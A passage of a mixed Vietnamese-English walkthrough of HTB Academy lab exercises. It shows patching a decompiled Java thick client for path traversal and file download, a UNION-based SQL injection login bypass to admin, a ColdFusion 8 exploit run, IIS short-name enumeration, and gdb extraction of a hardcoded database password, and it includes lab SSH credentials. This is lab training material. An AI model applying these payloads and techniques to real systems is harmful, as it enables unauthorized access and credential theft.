Máy chủ sẽ lọc ra ký tự `/` từ dữ liệu đầu vào. Hãy dịch ngược ứng dụng bằng [JD-GUI](http://java-decompiler.github.io/) , bằng cách kéo và thả `fatty-client-new.jar`vào `jd-gui`.

Sau đó chọn File -> Save all source


GIải nén, truy cập vào đọc mã nguồn: `C:\TOOLS\fatty-client-new.jar.src\htb\fatty\client\methods`


The `showFiles` function takes in one argument for the folder name and then sends the data to the server using the `sendAndRecv()` call. The file `fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java` sets the folder option.

ClientGuiTest.java


Chúng ta cần thay đổi giá trị của `currentFolder` để liệt kê thư mục tại vị trí khác. Ví dụ đổi thành `..`

```java
ClientGuiTest.this.currentFolder = "..";
/*     */             try {
/* 374 */               response = ClientGuiTest.this.invoker.showFiles("..");
```

Tiếp theo, biên dịch tệp `ClientGuiTest.Java`.

```powershell
PS C:\Apps> javac -cp fatty-client-new.jar C:\Tools\fatty-client-new.jar.src\htb\fatty\client\gui\ClientGuiTest.java
```

Thao tác này sẽ tạo ra một số tệp lớp. Hãy tạo một thư mục mới và trích xuất nội dung `fatty-client-new.jar`vào đó.

```powershell
PS C:\Apps> mkdir raw


    Directory: C:\Apps


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/16/2025   6:32 PM                raw


PS C:\Apps> cp fatty-client-new.jar raw\fatty-client-new-2.jar
```

Đi đến thư mục `raw` và giải nén `fatty-client-new-2.jar`bằng cách nhấp chuột phải và chọn `Extract Here`. Ghi đè lên bất kỳ tệp `htb/fatty/client/gui/*.class` hiện có nào bằng các tệp lớp đã cập nhật.


```powershell
PS C:\Apps> mv -Force C:\tools\fatty-client-new.jar.src\htb\fatty\client\gui\*.class raw\htb\fatty\client\gui\
```

Tiếp theo build tệp `jar` mới

```powershell
PS C:\Apps> cd raw
PS C:\Apps\raw> jar -cmf META-INF\MANIFEST.MF traverse.jar .
```

Vào `FileBrowser -> Config`


Như vậy là thành công. Bây giờ chúng ta có thể thấy nội dung của thư mục configs/../. Các tệp fatty-server.jar và start.sh trông khá thú vị. Có vẻ như fatty-server.jar là tệp xử lý của server, lấy tệp này về phân tích mã nguồn có vẻ sẽ rất hay.

We can modify the `open` function in `fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java` to download the file `fatty-server.jar` as follows.

```java
import java.io.FileOutputStream;

public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {}).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
        return "Error: Method '" + methodName + "' is not allowed for this user account";
    }
    this.action = new ActionMessage(this.sessionID, "open");
    this.action.addArgument(foldername);
    this.action.addArgument(filename);
    sendAndRecv();
    String desktopPath = System.getProperty("user.home") + "\\Desktop\\fatty-server.jar";
    FileOutputStream fos = new FileOutputStream(desktopPath);
    
    if (this.response.hasError()) {
        return "Error: Your action caused an error on the application server!";
    }
    
    byte[] content = this.response.getContent();
    fos.write(content);
    fos.close();
    
    return "Successfully saved the file to " + desktopPath;
}
```


Tiếp theo biên dịch lại file

```powershell
PS C:\Apps> javac -cp fatty-client-new.jar .\fatty-client-new.jar.src\htb\fatty\client\methods\Invoker.java
```


Di chuyển `.class` đến vị trí tương ứng

```powershell
PS C:\Apps> mv -Force .\fatty-client-new.jar.src\htb\fatty\client\methods\*.class raw\htb\fatty\client\methods\

PS C:\Apps> cd raw
PS C:\Apps\raw> jar -cmf META-INF\MANIFEST.MF traverse-and-download.jar .
```



Sau khi duyệt đến `config`


Download và nhận file


Decompiling the `fatty-server.jar` using JD-GUI reveals the file `htb/fatty/server/database/FattyDbSession.class` that contains a `checkLogin()` function that handles the login functionality. This function retrieves user details based on the provided username. It then compares the retrieved password with the provided password.

```java
public User checkLogin(User user) throws LoginException {
    <SNIP>
      rs = stmt.executeQuery("SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "'");
      <SNIP>
        if (newUser.getPassword().equalsIgnoreCase(user.getPassword()))
          return newUser; 
        throw new LoginException("Wrong Password!");
      <SNIP>
           this.logger.logError("[-] Failure with SQL query: ==> SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "' <==");
      this.logger.logError("[-] Exception was: '" + e.getMessage() + "'");
      return null;
```

Let's check how the client application sends credentials to the server. The login button creates the new object `ClientGuiTest.this.user` for the `User` class. It then calls the `setUsername()` and `setPassword()` functions with the respective username and password values. The values that are returned from these functions are then sent to the server.


Let's check the `setUsername()` and `setPassword()` functions from `htb/fatty/shared/resources/user.java`.

```java
public void setUsername(String username) {
    this.username = username;
  }
  
  public void setPassword(String password) {
    String hashString = this.username + password + "clarabibimakeseverythingsecure";
    MessageDigest digest = null;
    try {
      digest = MessageDigest.getInstance("SHA-256");
    } catch (NoSuchAlgorithmException e) {
      e.printStackTrace();
    } 
    byte[] hash = digest.digest(hashString.getBytes(StandardCharsets.UTF_8));
    this.password = DatatypeConverter.printHexBinary(hash);
  }
```

The username is accepted without modification, but the password is changed to the format below.

```java
sha256(username+password+"clarabibimakeseverythingsecure")
```

We also notice that the username isn't sanitized and is directly used in the SQL query, making it vulnerable to SQL injection.

```java
rs = stmt.executeQuery("SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "'");
```

The `checkLogin` function in `htb/fatty/server/database/FattyDbSession.class` writes the SQL exception to a log file.

```java
<SNIP>
    this.logger.logError("[-] Failure with SQL query: ==> SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "' <==");
      this.logger.logError("[-] Exception was: '" + e.getMessage() + "'");
<SNIP>
```

Login into the application using the username `qtc'` to validate the SQL injection vulnerability reveals a syntax error. To see the error, we need to edit the code in the `fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java` file as follows.

```java
ClientGuiTest.this.currentFolder = "../logs";
  try {
    response = ClientGuiTest.this.invoker.showFiles("../logs");
```

Listing the content of the `error-log.txt` file reveals the following message.


This confirms that the username field is vulnerable to SQL Injection. However, login attempts using payloads such as `' or '1'='1` in both fields fail. Assuming that the username in the login form is `' or '1'='1`, the server will process the username as below.

```sql
SELECT id,username,email,password,role FROM users WHERE username='' or '1'='1'
```

The above query succeeds and returns the first record in the database. The server then creates a new user object with the obtained results.

```java
<SNIP>
if (rs.next()) {
        int id = rs.getInt("id");
        String username = rs.getString("username");
        String email = rs.getString("email");
        String password = rs.getString("password");
        String role = rs.getString("role");
        newUser = new User(id, username, password, email, Role.getRoleByName(role), false);
<SNIP>
```

It then compares the newly created user password with the user-supplied password.

```java
<SNIP>
if (newUser.getPassword().equalsIgnoreCase(user.getPassword()))
    return newUser;
throw new LoginException("Wrong Password!");
<SNIP>
```

Then, the following value is produced by `newUser.getPassword()` function.

```java
sha256("qtc"+"clarabibi"+"clarabibimakeseverythingsecure") = 5a67ea356b858a2318017f948ba505fd867ae151d6623ec32be86e9c688bf046
```

The user-supplied password hash `user.getPassword()` is calculated as follows.

```java
sha256("' or '1'='1" + "' or '1'='1" + "clarabibimakeseverythingsecure") = cc421e01342afabdd4857e7a1db61d43010951c7d5269e075a029f5d192ee1c8
```

Although the hash sent to the server by the client doesn't match the one in the database, and the password comparison fails, the SQL injection is still possible using `UNION` queries. Let's consider the following example.

```sql
MariaDB [userdb]> select * from users where username='john';
+----------+-------------+
| username | password    |
+----------+-------------+
| john     | password123 |
+----------+-------------+
```

It is possible to create fake entries using the `SELECT` operator. Let's input an invalid username to create a new user entry.

```sql
MariaDB [userdb]> select * from users where username='test' union select 'admin', 'welcome123';
+----------+-------------+
| username | password    |
+----------+-------------+
| admin    | welcome123  |
+----------+-------------+
```

Similarly, the injection in the `username` field can be leveraged to create a fake user entry.

```java
test' UNION SELECT 1,'invaliduser','invalid@a.b','invalidpass','admin
```

This way, the password, and the assigned role can be controlled. The following snippet of code sends the plaintext password entered in the form. Let's modify the code in `htb/fatty/shared/resources/User.java` to submit the password as it is from the client application.

```java
public User(int uid, String username, String password, String email, Role role) {
    this.uid = uid;
    this.username = username;
    this.password = password;
    this.email = email;
    this.role = role;
}
```


```java
public void setPassword(String password) {
    this.password = password;
  }
```


We can now rebuild the JAR file and attempt to log in using the payload `abc' UNION SELECT 1,'abc','a@b.com','abc','admin` in the `username` field and the random text `abc` in the `password` field.

```
abc' UNION SELECT 1,'abc','a@b.com','abc','admin
```

`password: abc`


The server will eventually process the following query.

```sql
select id,username,email,password,role from users where username='abc' UNION SELECT 1,'abc','a@b.com','abc','admin'
```

The first select query fails, while the second returns valid user results with the role `admin` and the password `abc`. The password sent to the server is also `abc`, which results in a successful password comparison, and the application allows us to log in as the user `admin`.


# ColdFusion - Discovery & Enumeration

#### Questions
+ 0  What ColdFusion protocol runs on port 5500?

```zsh
sudo nmap --open 10.129.127.243
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown
```

| Port Number | Protocol       | Description                                                                                                                                                            |
| ----------- | -------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 80          | HTTP           | Used for non-secure HTTP communication between the web server and web browser.                                                                                         |
| 443         | HTTPS          | Used for secure HTTP communication between the web server and web browser. Encrypts the communication between the web server and web browser.                          |
| 1935        | RPC            | Used for client-server communication. Remote Procedure Call (RPC) protocol allows a program to request information from another program on a different network device. |
| 25          | SMTP           | Simple Mail Transfer Protocol (SMTP) is used for sending email messages.                                                                                               |
| 8500        | SSL            | Used for server communication via Secure Socket Layer (SSL).                                                                                                           |
| 5500        | Server Monitor | Used for remote administration of the ColdFusion server.                                                                                                               |

# Attacking ColdFusion

#### Questions
+ 0  What user is ColdFusion running as?

Truy cập vào `http://10.129.127.243:8500/CFIDE/administrator/enter.cfm` nhận thấy phiên bản là ColdFusion 8


```zsh
searchsploit Adobe ColdFusion
```


Chỉnh payload sao cho phù hợp


Chạy khai thác

```zsh
python3 50057.py
```


# IIS Tilde Enumeration

#### Questions

+ 0  What is the full .aspx filename that Gobuster identified?

```zsh
java -jar iis_shortname_scanner.jar 0 5 http://10.129.41.108/                                                 
Do you want to use proxy [Y=Yes, Anything Else=No]? Else
No
Early result: the target is probably vulnerable.
Early result: identified letters in names > A,C,D,E,F,L,N,O,P,R,S,T,U,X
Early result: identified letters in extensions > A,C,P,S
# IIS Short Name (8.3) Scanner version 2023.4 - scan initiated 2025/07/17 03:42:22
Target: http://10.129.41.108/
|_ Result: Vulnerable!
|_ Used HTTP method: OPTIONS
|_ Suffix (magic part): /~1/.rem
|_ Extra information:
  |_ Number of sent requests: 571
  |_ Identified directories: 2
    |_ ASPNET~1
    |_ UPLOAD~1
  |_ Identified files: 2
    |_ CSASPX~1.CS
      |_ Actual extension = .CS
    |_ TRANSF~1.ASP
```

Tạo wordlist

```zsh
egrep -r ^transf /usr/share/wordlists/* | sed 's/^[^:]*://' > /tmp/list.txt
```

Quét tổng quát với `gobuster`

```zsh
gobuster dir -u http://10.129.41.108/ -w /tmp/list.txt -t 50 --timeout=5s
```


# LDAP
+ 0  After bypassing the login, what is the website "Powered by"?


# Web Mass Assignment Vulnerabilities

#### Questions

 SSH to 10.129.205.15 (ACADEMY-ACA-CLAMP) with user "root" and password `!x4;EW[ZLwmDx?=w`

+ 0  We placed the source code of the application we just covered at /opt/asset-manager/app.py inside this exercise's target, but we changed the crucial parameter's name. SSH into the target, view the source code and enter the parameter name that needs to be manipulated to log in to the Asset Manager web application.

Đọc mã nguồn `app.py`

```python
@app.route('/register',methods=['GET','POST'])
def register():
	if request.method=='GET':
		return render_template('index.html')
	else:
		username=request.form['username']
		password=request.form['password']
		try:
			if request.form['active']:
				cond=True
		except:
				cond=False
		with sqlite3.connect("database.db") as con:
			cur = con.cursor()
			cur.execute('select * from users where username=?',(username,))
			if cur.fetchone():
				return render_template('index.html',value='User exists!!')
			else:
				cur.execute('insert into users values(?,?,?)',(username,password,cond))
				con.commit()
				return render_template('index.html',value='Success!!')
```

Như vậy yêu cầu một tham số để kích hoạt tài khoản là `active`


Đăng nhập thành công với `hehe:test`


# Attacking Applications Connecting to Services
#### Questions
 SSH to  with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  What credentials were found for the local database instance while debugging the octopus_checker binary?

Vì có sẵn `peda` nên tôi sẽ phân tích luôn trên máy của htb:


```zsh
gdb ./octopus_checker
```

```zsh
gdb-peda$ set disassembly-flavor intel
gdb-peda$ disas main
```

```assembly
Dump of assembler code for function main:
   0x0000000000001456 <+0>:     endbr64 
   0x000000000000145a <+4>:     push   rbp
   0x000000000000145b <+5>:     mov    rbp,rsp
   0x000000000000145e <+8>:     push   rbx
   0x000000000000145f <+9>:     sub    rsp,0x4b8
   0x0000000000001466 <+16>:    mov    rax,QWORD PTR fs:0x28
   0x000000000000146f <+25>:    mov    QWORD PTR [rbp-0x18],rax
   0x0000000000001473 <+29>:    xor    eax,eax
   0x0000000000001475 <+31>:    lea    rsi,[rip+0xbe5]        # 0x2061
   0x000000000000147c <+38>:    lea    rdi,[rip+0x2bbd]        # 0x4040 <_ZSt4cout@@GLIBCXX_3.4>
   0x0000000000001483 <+45>:    call   0x11a0 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x0000000000001488 <+50>:    mov    rdx,rax
   0x000000000000148b <+53>:    mov    rax,QWORD PTR [rip+0x2b3e]        # 0x3fd0
   0x0000000000001492 <+60>:    mov    rsi,rax
   0x0000000000001495 <+63>:    mov    rdi,rdx
   0x0000000000001498 <+66>:    call   0x11c0 <_ZNSolsEPFRSoS_E@plt>
   0x000000000000149d <+71>:    lea    rax,[rbp-0x4b0]
   0x00000000000014a4 <+78>:    mov    rdx,rax
   0x00000000000014a7 <+81>:    mov    esi,0x0
   0x00000000000014ac <+86>:    mov    edi,0x1
   0x00000000000014b1 <+91>:    call   0x1170 <SQLAllocHandle@plt>
   0x00000000000014b6 <+96>:    mov    rax,QWORD PTR [rbp-0x4b0]
   0x00000000000014bd <+103>:   mov    ecx,0x0
   0x00000000000014c2 <+108>:   mov    edx,0x3
   0x00000000000014c7 <+113>:   mov    esi,0xc8
   0x00000000000014cc <+118>:   mov    rdi,rax
   0x00000000000014cf <+121>:   call   0x1230 <SQLSetEnvAttr@plt>
   0x00000000000014d4 <+126>:   mov    rax,QWORD PTR [rbp-0x4b0]
   0x00000000000014db <+133>:   lea    rdx,[rbp-0x4a8]
   0x00000000000014e2 <+140>:   mov    rsi,rax
   0x00000000000014e5 <+143>:   mov    edi,0x2
   0x00000000000014ea <+148>:   call   0x1170 <SQLAllocHandle@plt>
   0x00000000000014ef <+153>:   lea    rsi,[rip+0xb81]        # 0x2077
   0x00000000000014f6 <+160>:   lea    rdi,[rip+0x2b43]        # 0x4040 <_ZSt4cout@@GLIBCXX_3.4>
   0x00000000000014fd <+167>:   call   0x11a0 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x0000000000001502 <+172>:   mov    rdx,rax
   0x0000000000001505 <+175>:   mov    rax,QWORD PTR [rip+0x2ac4]        # 0x3fd0
   0x000000000000150c <+182>:   mov    rsi,rax
   0x000000000000150f <+185>:   mov    rdi,rdx
   0x0000000000001512 <+188>:   call   0x11c0 <_ZNSolsEPFRSoS_E@plt>
   0x0000000000001517 <+193>:   movabs rax,0x7b3d524556495244
   0x0000000000001521 <+203>:   movabs rdx,0x697244204342444f
   0x000000000000152b <+213>:   mov    QWORD PTR [rbp-0x480],rax
   0x0000000000001532 <+220>:   mov    QWORD PTR [rbp-0x478],rdx
   0x0000000000001539 <+227>:   movabs rax,0x6620373120726576
   0x0000000000001543 <+237>:   movabs rdx,0x53204c515320726f
   0x000000000000154d <+247>:   mov    QWORD PTR [rbp-0x470],rax
   0x0000000000001554 <+254>:   mov    QWORD PTR [rbp-0x468],rdx
   0x000000000000155b <+261>:   movabs rax,0x533b7d7265767265
   0x0000000000001565 <+271>:   movabs rdx,0x6f6c3d5245565245
   0x000000000000156f <+281>:   mov    QWORD PTR [rbp-0x460],rax
   0x0000000000001576 <+288>:   mov    QWORD PTR [rbp-0x458],rdx
   0x000000000000157d <+295>:   movabs rax,0x2c74736f686c6163
   0x0000000000001587 <+305>:   movabs rdx,0x49553b3130343120
   0x0000000000001591 <+315>:   mov    QWORD PTR [rbp-0x450],rax
   0x0000000000001598 <+322>:   mov    QWORD PTR [rbp-0x448],rdx
   0x000000000000159f <+329>:   movabs rax,0x4457503b41533d44
   0x00000000000015a9 <+339>:   movabs rdx,0x7263335374304e3d
   0x00000000000015b3 <+349>:   mov    QWORD PTR [rbp-0x440],rax
   0x00000000000015ba <+356>:   mov    QWORD PTR [rbp-0x438],rdx
   0x00000000000015c1 <+363>:   mov    DWORD PTR [rbp-0x430],0x3b217433
   0x00000000000015cb <+373>:   mov    BYTE PTR [rbp-0x42c],0x0
   0x00000000000015d2 <+380>:   mov    rax,QWORD PTR [rbp-0x4a8]
   0x00000000000015d9 <+387>:   lea    rsi,[rbp-0x420]
   0x00000000000015e0 <+394>:   lea    rdx,[rbp-0x480]
   0x00000000000015e7 <+401>:   push   0x0
   0x00000000000015e9 <+403>:   lea    rcx,[rbp-0x4b6]
   0x00000000000015f0 <+410>:   push   rcx
   0x00000000000015f1 <+411>:   mov    r9d,0x400
   0x00000000000015f7 <+417>:   mov    r8,rsi
   0x00000000000015fa <+420>:   mov    ecx,0xfffffffd
   0x00000000000015ff <+425>:   mov    esi,0x0
   0x0000000000001604 <+430>:   mov    rdi,rax
   0x0000000000001607 <+433>:   call   0x11b0 <SQLDriverConnect@plt>
   0x000000000000160c <+438>:   add    rsp,0x10
   0x0000000000001610 <+442>:   mov    WORD PTR [rbp-0x4b4],ax
   0x0000000000001617 <+449>:   lea    rsi,[rip+0xa70]        # 0x208e
   0x000000000000161e <+456>:   lea    rdi,[rip+0x2a1b]        # 0x4040 <_ZSt4cout@@GLIBCXX_3.4>
   0x0000000000001625 <+463>:   call   0x11a0 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x000000000000162a <+468>:   mov    rdx,rax
   0x000000000000162d <+471>:   mov    rax,QWORD PTR [rip+0x299c]        # 0x3fd0
   0x0000000000001634 <+478>:   mov    rsi,rax
   0x0000000000001637 <+481>:   mov    rdi,rdx
   0x000000000000163a <+484>:   call   0x11c0 <_ZNSolsEPFRSoS_E@plt>
   0x000000000000163f <+489>:   mov    rbx,QWORD PTR [rbp-0x4a8]
   0x0000000000001646 <+496>:   lea    rax,[rbp-0x4b7]
   0x000000000000164d <+503>:   mov    rdi,rax
   0x0000000000001650 <+506>:   call   0x1220 <_ZNSaIcEC1Ev@plt>
   0x0000000000001655 <+511>:   lea    rdx,[rbp-0x4b7]
   0x000000000000165c <+518>:   lea    rax,[rbp-0x4a0]
   0x0000000000001663 <+525>:   lea    rsi,[rip+0xa34]        # 0x209e
   0x000000000000166a <+532>:   mov    rdi,rax
   0x000000000000166d <+535>:   call   0x11f0 <_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1EPKcRKS3_@plt>
   0x0000000000001672 <+540>:   lea    rax,[rbp-0x4a0]
   0x0000000000001679 <+547>:   mov    edx,0x2
   0x000000000000167e <+552>:   mov    rsi,rbx
   0x0000000000001681 <+555>:   mov    rdi,rax
   0x0000000000001684 <+558>:   call   0x1329 <_Z13extract_errorNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEEPvs>
   0x0000000000001689 <+563>:   lea    rax,[rbp-0x4a0]
   0x0000000000001690 <+570>:   mov    rdi,rax
   0x0000000000001693 <+573>:   call   0x1160 <_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEED1Ev@plt>
   0x0000000000001698 <+578>:   lea    rax,[rbp-0x4b7]
   0x000000000000169f <+585>:   mov    rdi,rax
   0x00000000000016a2 <+588>:   call   0x11d0 <_ZNSaIcED1Ev@plt>
   0x00000000000016a7 <+593>:   cmp    WORD PTR [rbp-0x4b2],0x0
   0x00000000000016af <+601>:   je     0x16e5 <main+655>
   0x00000000000016b1 <+603>:   cmp    WORD PTR [rbp-0x4b2],0x1
   0x00000000000016b9 <+611>:   je     0x16e5 <main+655>
   0x00000000000016bb <+613>:   lea    rsi,[rip+0x9ed]        # 0x20af
   0x00000000000016c2 <+620>:   lea    rdi,[rip+0x2977]        # 0x4040 <_ZSt4cout@@GLIBCXX_3.4>
   0x00000000000016c9 <+627>:   call   0x11a0 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x00000000000016ce <+632>:   mov    rdx,rax
   0x00000000000016d1 <+635>:   mov    rax,QWORD PTR [rip+0x28f8]        # 0x3fd0
   0x00000000000016d8 <+642>:   mov    rsi,rax
   0x00000000000016db <+645>:   mov    rdi,rdx
   0x00000000000016de <+648>:   call   0x11c0 <_ZNSolsEPFRSoS_E@plt>
   0x00000000000016e3 <+653>:   jmp    0x170d <main+695>
   0x00000000000016e5 <+655>:   lea    rsi,[rip+0x9d3]        # 0x20bf
   0x00000000000016ec <+662>:   lea    rdi,[rip+0x294d]        # 0x4040 <_ZSt4cout@@GLIBCXX_3.4>
   0x00000000000016f3 <+669>:   call   0x11a0 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x00000000000016f8 <+674>:   mov    rdx,rax
   0x00000000000016fb <+677>:   mov    rax,QWORD PTR [rip+0x28ce]        # 0x3fd0
   0x0000000000001702 <+684>:   mov    rsi,rax
   0x0000000000001705 <+687>:   mov    rdi,rdx
   0x0000000000001708 <+690>:   call   0x11c0 <_ZNSolsEPFRSoS_E@plt>
   0x000000000000170d <+695>:   mov    eax,0x0
   0x0000000000001712 <+700>:   mov    rcx,QWORD PTR [rbp-0x18]
   0x0000000000001716 <+704>:   xor    rcx,QWORD PTR fs:0x28
   0x000000000000171f <+713>:   je     0x1761 <main+779>
   0x0000000000001721 <+715>:   jmp    0x175c <main+774>
   0x0000000000001723 <+717>:   endbr64 
   0x0000000000001727 <+721>:   mov    rbx,rax
   0x000000000000172a <+724>:   lea    rax,[rbp-0x4a0]
   0x0000000000001731 <+731>:   mov    rdi,rax
   0x0000000000001734 <+734>:   call   0x1160 <_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEED1Ev@plt>
   0x0000000000001739 <+739>:   jmp    0x1742 <main+748>
   0x000000000000173b <+741>:   endbr64 
   0x000000000000173f <+745>:   mov    rbx,rax
   0x0000000000001742 <+748>:   lea    rax,[rbp-0x4b7]
   0x0000000000001749 <+755>:   mov    rdi,rax
   0x000000000000174c <+758>:   call   0x11d0 <_ZNSaIcED1Ev@plt>
   0x0000000000001751 <+763>:   mov    rax,rbx
   0x0000000000001754 <+766>:   mov    rdi,rax
   0x0000000000001757 <+769>:   call   0x1210 <_Unwind_Resume@plt>
   0x000000000000175c <+774>:   call   0x11e0 <__stack_chk_fail@plt>
   0x0000000000001761 <+779>:   mov    rbx,QWORD PTR [rbp-0x8]
   0x0000000000001765 <+783>:   leave  
   0x0000000000001766 <+784>:   ret    
End of assembler dump.
```

### Đặt Breakpoint để Xem Chuỗi Kết Nối SQL

Để xem chuỗi kết nối SQL chứa thông tin xác thực (bao gồm **mật khẩu**), bạn cần đặt breakpoint tại địa chỉ:  
**`gdb-peda$ b *0x00000000000015e7`**

---

#### **Tại sao chọn địa chỉ này?**

1. **Vị trí quan trọng**:
    
    - Tại offset `main+401` (`0x15e7`), chương trình chuẩn bị gọi hàm `SQLDriverConnect` - hàm thiết lập kết nối đến cơ sở dữ liệu.
        
    - Ngay trước lệnh `call` (tại `0x15e7`), thanh ghi `RDX` được thiết lập để trỏ đến **chuỗi kết nối SQL**:
        
        
        0x00000000000015e0 <+394>:   lea    rdx,[rbp-0x480]   ; RDX = Địa chỉ chuỗi kết nối
        0x00000000000015e7 <+401>:   push   0x0                ; Breakpoint đặt ở đây
        
2. **Tại sao RDX?**
    
    - Theo quy ước calling convention trên Linux x86-64:
        
        - Tham số thứ 3 của hàm được truyền qua thanh ghi `RDX`.
            
        - Hàm `SQLDriverConnect` có prototype:
            
            c
            
            SQLRETURN SQLDriverConnect(SQLHDBC hdbc, SQLHWND hwnd, SQLCHAR *connStr, ...);
            
        - `RDX` chứa tham số thứ 3: `connStr` (con trỏ đến chuỗi kết nối).
            

---

#### **Các bước thực hiện trong GDB:**

1. **Đặt breakpoint**:
    
    gdb-peda$ b *0x00000000000015e7
    
2. **Chạy chương trình**:
    
    gdb-peda$ run
    
3. **Khi breakpoint hit, kiểm tra RDX**:
    
    gdb-peda$ x/s $rdx
    
4. **Kết quả mong đợi**:  
    Chuỗi kết nối sẽ hiển thị dạng:  
    `DRIVER=ODBC Driver 17 for SQL Server;SERVER=localhost,1041;UID=SA;PWD=N0tS3cr3t!;`  
    → **Mật khẩu DB** nằm sau `PWD=` (trong ví dụ này là `N0tS3cr3t!`).
    

---

#### **Giải thích chi tiết hơn về mã assembly liên quan:**

- **Chuỗi kết nối được build trên stack**:  
    Các lệnh `movabs` trước đó (từ `0x1521` đến `0x15cb`) ghép chuỗi kết nối vào vùng nhớ `[rbp-0x480]`.  
    Ví dụ:
    
    0x000000000000152b <+213>:   mov    QWORD PTR [rbp-0x480], rax  ; "DRIVER=O"
    0x0000000000001532 <+220>:   mov    QWORD PTR [rbp-0x478], rdx  ; "DBC Dri"
    
- **Tại `0x15e0`**:
    
    lea rdx, [rbp-0x480]   ; RDX = địa chỉ bắt đầu chuỗi
    
- **Breakpoint tại `0x15e7`**:  
    Đây là thời điểm ngay sau khi `RDX` được thiết lập và trước khi hàm được gọi → Bạn có thể xem chuỗi nguyên vẹn.


```zsh
gdb-peda$ b *main+401
Breakpoint 1 at 0x15e7
gdb-peda$ run
Starting program: /home/htb-student/octopus_checker 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Program had started..
Attempting Connection 
[----------------------------------registers-----------------------------------]
RAX: 0x55555556c4f0 --> 0x4b5a ('ZK')
RBX: 0x5555555557d0 (<__libc_csu_init>: endbr64)
RCX: 0x7ffff7a6e077 (<__GI___libc_write+23>:    cmp    rax,0xfffffffffffff000)
RDX: 0x7fffffffdf30 ("DRIVER={ODBC Driver 17 for SQL Server};SERVER=localhost, 1401;UID=SA;PWD=N0tS3cr3t!;")
RSI: 0x7fffffffdf90 --> 0x0 
RDI: 0x7ffff7b4e7e0 --> 0x0 
RBP: 0x7fffffffe3b0 --> 0x0 
RSP: 0x7fffffffdef0 --> 0x7fffffffe2b0 --> 0x7ffff7d4cf74 --> 0x2 
RIP: 0x5555555555e7 (<main+401>:        push   0x0)
R8 : 0x0 
R9 : 0x0 
R10: 0xfffffffffffff8ff 
R11: 0x246 
R12: 0x555555555240 (<_start>:  endbr64)
R13: 0x7fffffffe4a0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x213 (CARRY parity ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x5555555555d2 <main+380>:   mov    rax,QWORD PTR [rbp-0x4a8]
   0x5555555555d9 <main+387>:   lea    rsi,[rbp-0x420]
   0x5555555555e0 <main+394>:   lea    rdx,[rbp-0x480]
=> 0x5555555555e7 <main+401>:   push   0x0
   0x5555555555e9 <main+403>:   lea    rcx,[rbp-0x4b6]
   0x5555555555f0 <main+410>:   push   rcx
   0x5555555555f1 <main+411>:   mov    r9d,0x400
   0x5555555555f7 <main+417>:   mov    r8,rsi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdef0 --> 0x7fffffffe2b0 --> 0x7ffff7d4cf74 --> 0x2 
0008| 0x7fffffffdef8 --> 0x7ffff7fe7c3e (<_dl_runtime_resolve_xsavec+126>:      mov    r11,rax)
0016| 0x7fffffffdf00 --> 0x55555556b3b0 --> 0x4b59 ('YK')
0024| 0x7fffffffdf08 --> 0x55555556c4f0 --> 0x4b5a ('ZK')
0032| 0x7fffffffdf10 --> 0x7ffff7d4c000 --> 0x7ffff7d46280 --> 0x7ffff7cb2cb0 (<_ZNSt7num_getIwSt19istreambuf_iteratorIwSt11char_traitsIwEEED2Ev>:      endbr64)
0040| 0x7fffffffdf18 --> 0x7fffffffe270 --> 0x7ffff7d4c000 --> 0x7ffff7d46280 --> 0x7ffff7cb2cb0 (<_ZNSt7num_getIwSt19istreambuf_iteratorIwSt11char_traitsIwEEED2Ev>:   endbr64)
0048| 0x7fffffffdf20 --> 0x7ffff7d4b0d8 --> 0x7ffff7d4cce0 --> 0x2 
0056| 0x7fffffffdf28 --> 0x7ffff7d4c001 --> 0x200007ffff7d462 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00005555555555e7 in main ()
```


```zsh
gdb-peda$ x/s $rdx
0x7fffffffdf30: "DRIVER={ODBC Driver 17 for SQL Server};SERVER=localhost, 1401;UID=SA;PWD=N0tS3cr3t!;"
```


# Other Notable Applications

#### Questions
+ 1  Enumerate the target host and identify the running application. What application is running?

Câu lệnh quét `nmap` ưa thích của tôi:

```zsh
sudo nmap -T 4 --min-rate 3000 10.129.201.102 -vv
PORT     STATE SERVICE       REASON
21/tcp   open  ftp           syn-ack ttl 127
80/tcp   open  http          syn-ack ttl 127
135/tcp  open  msrpc         syn-ack ttl 127
139/tcp  open  netbios-ssn   syn-ack ttl 127
443/tcp  open  https         syn-ack ttl 127
445/tcp  open  microsoft-ds  syn-ack ttl 127
5985/tcp open  wsman         syn-ack ttl 127
7001/tcp open  afs3-callback syn-ack ttl 127
```


```zsh
sudo nmap -sCV -p 7001 10.129.201.102 
